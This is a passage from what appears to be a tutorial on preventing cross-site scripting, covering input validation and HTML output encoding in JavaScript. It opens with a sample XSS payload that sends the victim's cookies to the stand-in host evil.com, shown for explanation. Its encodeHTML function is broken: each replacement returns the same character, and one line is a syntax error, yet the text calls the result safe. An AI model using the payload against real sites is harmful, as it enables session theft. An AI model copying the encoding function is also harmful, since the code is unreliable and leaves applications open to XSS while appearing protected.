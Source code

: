 **Example of a cookie-stealing XSS payload:**

```javascript
// This script sends the victim's cookies to an attacker-controlled server
const img = new Image();
img.src = 'https://evil.com/steal.php?cookies=' + encodeURIComponent(document.cookie);
document.body.appendChild(img);
```

## Core Principles of XSS Prevention

To prevent XSS, we need to follow these fundamental principles:

### 1. Input Validation

Always validate input according to what you expect. If you expect a number, validate that it's a number.

**Example of input validation:**

```javascript
// Validate that input is a number
function validateNumericInput(input) {
  // Use a regular expression to check if input contains only digits
  if (!/^\d+$/.test(input)) {
    throw new Error('Input must be numeric');
  }
  return input;
}

// Usage
try {
  const userAge = validateNumericInput(userInput);
  // Safe to use userAge as it contains only digits
} catch (e) {
  // Handle invalid input
  console.error(e.message);
}
```

### 2. Output Encoding

When displaying user input, encode it according to the context where it appears.

**Example of HTML encoding:**

```javascript
// HTML encoding function
function encodeHTML(str) {
  return str
    .replace(/&/g, '&')
    .replace(/</g, '<')
    .replace(/>/g, '>')
    .replace(/"/g, '"')
    .replace(/'/g, ''');
}

// Safe usage
document.getElementById('results').innerHTML = 
  'Search results for: ' + encodeHTML(userInput);
```
